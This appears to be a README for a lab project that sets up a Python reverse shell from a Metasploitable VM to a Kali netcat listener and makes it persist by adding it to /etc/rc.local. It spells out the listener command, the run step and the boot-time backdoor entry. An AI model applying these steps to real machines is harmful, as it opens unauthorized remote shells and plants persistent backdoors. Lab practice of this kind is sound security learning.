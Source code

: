 # Reverse-Shell

Write, set up, and execute a reverse shell in Python on Kali Linux and Metasploitable VM's, and automate this process creating a persistent backdoor.

!!Make sure that Both VM's can communicate with eachother on a secure network!!

On Kali, start a Netcat listener on port 7777: nc -lvnp 7777

  This tells Netcat to listen verbosely on port 7777 and not to close the connection.

On Metasploitable machine, create a Python script: sudo nano reverse_shell.py

  Write or paste the committed code in this file; save and exit the editor.

  Run "python reverse_shell.py" 

A connection should be established on Kali's Netcat listener, providing an interactive shell to the Metasploitable VM.

How to automate this process:

  Open the rc.local file: sudo nano /etc/rc.local

  Before the exit 0 line, add: python /path/to/your/reverse_shell.py &

  In my case: python /home/msfadmin/yannos/reverse_shell.py &

  The "&" makes sure it runs in the background.

Make the script executable: 

  sudo chmod +x /path/to/your/reverse_shell.py

  In my case: sudo chmod +x /home/msfadmin/yannos/reverse_shell.py

  Make sure rc.local is executable: sudo chmod +x /etc/rc.local

  Reboot and start the listener on Kali.

The shell should automatically establish on the listener upon reboot of Metasploitable VM.
